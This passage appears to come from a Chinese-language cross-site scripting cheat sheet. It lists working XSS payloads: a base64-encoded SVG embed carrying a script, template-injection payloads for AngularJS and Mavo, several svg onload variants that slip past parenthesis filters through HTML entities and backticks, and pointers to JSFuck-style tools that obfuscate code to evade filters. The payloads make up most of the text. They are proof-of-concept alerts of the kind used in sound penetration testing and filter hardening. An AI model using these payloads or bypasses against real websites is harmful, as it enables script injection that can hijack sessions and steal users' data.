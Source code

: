 ```
&lt;embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="&gt;&lt;/embed&gt;
```

### <a class="reference-link" name="XSS%E5%A4%9A%E8%A6%86%E7%9B%96%E6%A0%B7%E4%BE%8B"></a>XSS多覆盖样例

下面我给出了几份XSS的多段代码，因为有的时候我们只需要输入特定的字符，或者只需要一个基于DOM或基于非DOM的注入场景。

[![](https://p3.ssl.qhimg.com/t0135b892acebe1f4f2.png)](https://p3.ssl.qhimg.com/t0135b892acebe1f4f2.png)



## 框架

为了攻击JS框架，我们还需要对相关的模板语言进行研究和分析。

### <a class="reference-link" name="AngularJS"></a>AngularJS

``{``{`constructor.constructor('alert(1)')()`}``}``

这个Payload适用于大多数场景。

### <a class="reference-link" name="Mavo"></a>Mavo

`[self.alert(1)]`



## XSS过滤器绕过

### <a class="reference-link" name="%E5%9C%86%E6%8B%AC%E5%8F%B7%E8%BF%87%E6%BB%A4"></a>圆括号过滤

利用HTML解析器和JS语句：

```
&lt;svg onload=alert`1`&gt;&lt;/svg&gt;
&lt;svg onload=alert&amp;lpar;1&amp;rpar;&gt;&lt;/svg&gt;
&lt;svg onload=alert&amp;#x28;1&amp;#x29&gt;&lt;/svg&gt;
&lt;svg onload=alert&amp;#40;1&amp;#41&gt;&lt;/svg&gt;
```

### <a class="reference-link" name="%E9%99%90%E5%88%B6%E5%AD%97%E7%AC%A6%E9%9B%86"></a>限制字符集

下面这三个站点可以将有效的JS代码转换为所谓的“乱码”来绕过绝大多数的过滤器：

1、JSFuck<br>
2、JSFsck（不带圆括号的JSFuck）<br>
3、jjencode

